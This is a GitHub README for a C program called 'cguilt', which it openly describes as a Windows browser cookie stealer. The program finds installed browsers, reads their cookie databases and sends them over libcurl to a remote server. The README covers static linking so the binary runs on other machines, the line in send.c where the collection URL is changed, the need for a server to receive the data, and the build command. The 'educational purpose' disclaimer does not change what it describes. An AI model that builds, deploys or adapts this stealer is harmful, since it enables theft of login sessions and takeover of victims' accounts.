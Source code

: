 # cguilt
Kinda experiment field with cookies in Windows. As it is said above, it's just for educational purpose only. Have dependencies, also runtime one. So, to build it you'll need **libcurl** and **sqlite3**. Also libcurl should be static linked, because otherwise binary won't work on other machines. The explanation here is because the **libcurl.dll** is requred in runtime, so you need to link it static somehow.

### # faq
**Q.** *What is this exactly and how it works?*

**A.** It's really simple cookie stealler, which, as I already said twice, was written just for fun and some practice of course. It's just checks what browsers are currently installed at the local machine and reads it's cookies database files, then send them to other server through curl with api requests.

**Q.** *How can I use it?*

**A.** Just build it from sources like many other programs. In fact, I don't think it is really usefull stuff, but if you want - you're welcome. Also, this thing is still pretty raw and I actually have not yet compitely tested it on other machines. But issues here is always open, so if you want to improve for some reason...

### # quo vadis?
As it is can be somehow harmful, the main purpose of this thing is practice and education. That's all...

### # build
Install **libcurl** and **sqlite3** libs. Before compilation change destination server adress in 40th string in ***send.c***:
```c
curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:5000/api_post");
```
Also you need a serverside to accept the incoming POST requests. Enjoy.

Compile everything. Btw you need somehow link libcurl as static. Purpose of that is written above.
```bash
$ gcc -o <name> main.c send.c `pkg-config --cflags --libs sqlite3 libcurl`
```

